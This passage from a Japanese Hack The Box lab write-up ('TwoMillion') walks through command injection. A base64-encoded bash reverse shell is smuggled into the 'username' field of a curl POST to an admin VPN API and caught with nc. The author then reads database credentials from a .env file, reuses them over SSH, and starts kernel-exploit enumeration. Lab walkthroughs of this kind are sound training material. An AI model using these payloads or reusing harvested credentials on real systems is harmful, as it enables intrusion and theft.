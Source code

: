 が返ってきた。行ける。

`ip a`でtun0のipアドレスを確認して、Reverse Shell generatorを使って

```shell
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

コマンドが得られた。そのまま使うことはできなかったのでbase64 encodeして送信、サーバ側でdecodeしてbashに渡すという流れで対処する。

よって、まずローカルで

```shell
echo /bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 | base64
```

して得られた文字列を

```shell
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=rvd3usgqn4ol8893tgmqs19f6r" -H "Content-Type:application/json" -d '{"username":"kali;echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjI4LzkwMDEgMD4mMQo= | base64 -d | bash;"}'
```

として組み立て、ncで

```shell
nc -lvnp 9001
```

としてキャッチする。

接続した先でまずファイルを探索すると、`Database.php`などのphpファイルが見つかる。`ls -al`で表示すると`.env`ファイルがあり、この中に

```txt
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

と記述されていた。adminというユーザが存在することがうかがえる。手元で

`ssh admin@2million.htb`として接続を試してみるとこのクレデンシャルでadminとして入れた。

`user.txt`があったのでUSER FLAGは取得できた。

## ROOT FLAG

脆弱性の調査を行う。

```shell
admin@2million:~/CVE-2023-0386-main$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.2 LTS
Release:        22.04
Codename:       jammy
```
